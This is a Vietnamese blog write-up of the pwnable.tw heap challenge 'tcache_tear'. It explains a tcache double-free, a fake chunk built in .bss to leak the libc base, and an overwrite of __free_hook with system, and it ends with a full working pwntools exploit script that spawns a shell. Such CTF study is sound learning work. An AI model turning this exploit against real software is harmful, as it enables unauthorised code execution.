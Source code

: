 # tcache_tear (pwnable.tw)

# tcache_tear (pwnable.tw)
Bài viết ngày hôm nay là những kiến thức mình học được trong khi giải challenge *tcache_tear*, một challenge liên quan đến tcache  
Để giải được challenge này mình phải đi đọc writeup khá nhiều(gà vl:v) nhưng cũng học được khá nhiều thứ về heap từ đây

## kiến thức cơ bản
Mình học được cách áp dụng các loại bin để có thể leak được những giá trị mà mình muốn từ trang này [LEAK HEAP](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/)  
Thực ra thì cũng không có gì nhiều ngoài :  
    * unsorted_bin: để leak libc_base_address
    * fast_bin : để leak heap_base_address
    * small_bin: thì có thể leak được cả hai thứ trên

Cái mới mẻ thứ 2 mình học được đó là : về **__free_hook**  
*[__free_hook](https://linux.die.net/man/3/__free_hook) is a symbol exported from libc, which allow a user define function to be called when the **free** call is used (tương tự với __malloc_hook)*  
Khi ta overwrite giá trị ở __free_hook bằng địa chỉ của system và argument của free trỏ đến chuỗi '/bin/sh' thì khi gọi free đồng nghĩa với việc gọi đến system('/bin/sh')

## content to solve
Giống như form của các bài heap khác thì bài này cũng có các hàm malloc, free, show như hình dưới  

![menu.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624011346110/jkOHcGsiK.png)
Có một số địa chỉ khá quan trọng mà ta cần lưu ý
    * name_address : 0x602060
    * ptr : 0x602088 : đây chính là địa chỉ của con trỏ mà khi gọi hàm free thì sẽ free ở địa chỉ đó **free(ptr)**  
Cả hai biến này đều nằm trên phân vùng .bss  

*ý tưởng để giải bài này khá đơn giản: tạo một unsorted_bin để leak libc_base sau đó ghi đè __free_hook bằng giá trị của system ==> get shell*  

Có hai vấn đề lớn được đặt ra ở đây:
    * làm thế nào để ghi được vào địa chỉ mình mong muốn
    * làm thế nào để tạo được một unsorted_bin khi mà hàm create giới hạn size của một chunk < 0xff

Ta thấy do libc sử dụng cơ chế tcache_entry => lợi dụng lỗi doublefree để ghi các giá trị và địa chỉ mình mong muốn và tạo một fake chunk (tại địa chỉ của name) có size = 0x500 (unsorted bin) trên phân vùng bss để leak libc_base_address.  

### write to bss
* tạo một chunk và double free ta sẽ có một tcache bin bị overlap  

![tcache1.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624011366862/3gxc9BnmU.png)
* malloc một chunk mới với size bằng size ban đầu và input nhập vào là địa chỉ cần ghi ==> overwrite con trỏ fd của chunk hiện tại  

![tcache2.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624011376630/7u6ZUQsTf.png)
* malloc một lần nữa với cùng size và cùng giá trị input để đưa tcache_bin hiện tại trở thành chunk mới có phần con trỏ fd đã bị overwrite  

![heap1.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624011386564/YPLkF27Rc.png)
* như hình dưới đây thì con trỏ tiếp theo trong link list của tcache đã trỏ đến địa chỉ chúng ta mong muốn 
* tiếp theo chỉ cần malloc một cần nữa với size như cũ thì chương trình sẽ coi đó là địa chỉ của một tcache_bin trống và lấy nó để tạo một chunk mới   

![tcache3.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624011398579/a8ZXj0-Iq.png)

### tạo fake chunk
Chúng ta sẽ tạo một chunk tại địa chỉ 0x602050 + 0x500 với size 0x20, tạo chunk này với mục đích là có thể overwrite giá trị của con trỏ ptr tại 0x602088 bằng địa chỉ 0x602060 (để ko bị free size của chunk phía sau) trỏ đến địa chỉ fake chunk của chúng ta ==> free(ptr) sẽ làm đúng nhiệm vụ của nó  
Chunk thứ 2 chính là chunk có size 0x500 (unsorted_bin) tại địa chỉ 0x602050  
Sau khi ghi được 2 chunk này vào bss => free(0x602060) => ta sẽ có một unsorted bin => leak libc_base

![malloc.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624011422813/fWHaR8pCQ.png)
### exploit
Sau khi có libc base, ta sẽ dùng cái ghi bên trên để ghi địa chỉ của system vào __free_hook  
Tạo một chunk mang chuỗi */bin/sh\x00* => gọi hàm free => con trỏ đến chuỗi */bin/sh* được truyền vào ptr, free = system
==> get shell
 
```python
from pwn import *

# context.terminal = '/bin/sh'

# r = remote("chall.pwnable.tw", 10207)
r = process('./tcache_tear')

offset_libc = 0x3ebca0
# elf = ELF('./tcache_tear')
libc = ELF('./libc.so')

def malloc(size, data):
	r.recvuntil(' :')
	r.send('1')
	r.recvuntil('Size:')
	r.send(str(size))
	r.recvuntil('Data:')
	r.send(data)

def free():
	r.recvuntil(' :')
	r.send('2')

def mem_write(address, value, s):
	malloc(s, "anything")
	free()
	free()
	malloc(s, p64(address))
	malloc(s, p64(address))
	malloc(s, value)

def get_info():
	r.recvuntil(' :')
	r.send('3')
	r.recvuntil(' :')
	return r.recv(0x20)


r.recvuntil('Name:')
r.send('anything')


mem_write(0x602550, 
			p64(0) + 	# Previous Size
			p64(0x21) +	# Chunk Size (A=0, M=0, P=1)
			p64(0) + 	# Forward Pointer
			p64(0) + 	# Backward Pointer
			p64(0) + 	# Empty Space
			p64(0x21),	# Next Previous Size
		0x70)

mem_write(0x602050,
 			p64(0) +	# 0x602050		Previous Size 
			p64(0x501) +	# 0x602058		Chunk Size (A=0, M=0, P=1)
 			p64(0) +	# 0x602060[name_buffer]	Forward Pointer
 			p64(0) +	# 0x602068		Backward Pointer
 			p64(0)*3 +	# 0x602070		Empty Space
 			p64(0x602060),	# 0x602088[malloced] 	Overwrite the last malloced value
 		0x60)
free()
leak_chunk_addr = u64(get_info()[:8])  #leak address from unsorted bean
libc_base_addr = leak_chunk_addr - offset_libc

info("leak chunk address %#x" %leak_chunk_addr)
info('libc base address: %#x' %libc_base_addr)
free_hook = libc_base_addr + libc.symbols['__free_hook']
system = libc_base_addr + libc.symbols['system']
info('__free_hook address: %#x' % free_hook)
info('system address: %#x' % system)

mem_write(free_hook,system,0x50)
malloc(0x50,'/bin/sh\x00')
free()
r.interactive()
```



***Cảm ơn các bạn đã ghé thăm blog của tôi, thanks for reading***




